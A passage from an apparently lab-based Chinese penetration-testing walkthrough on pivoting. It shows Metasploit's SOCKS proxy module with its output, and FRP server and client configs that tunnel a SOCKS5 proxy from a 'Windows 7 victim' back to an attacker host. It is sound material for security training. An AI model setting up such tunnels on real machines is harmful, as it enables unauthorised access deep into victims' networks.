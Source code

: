 ## 7.设置代理

```shell
use auxiliary/server/socks_proxy  #使用代理模块
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


msf6 auxiliary(server/socks_proxy) >run   #不用设置什么 直接run即可
[*] Starting interaction with 1...

```

## 7-1.*设置代理 FRP方法（代理二选一）

------

项目地址：https://github.com/fatedier/frp

linux服务端：

```shell
[common]
bind_addr=0.0.0.0
bind_port=7080
token=admin123
```

 Windows 7受害者客户端：

```shell
[common]
server_addr = 192.168.32.130
server_port = 7080
token = admin123
tls_enable=true
pool_count=5
[plugin_socks] 
type = tcp 
remote_port = 4567
plugin = socks5 
plugin_user = admin
plugin_passwd = admin123
use_encryption = true 
use_compression = true
```
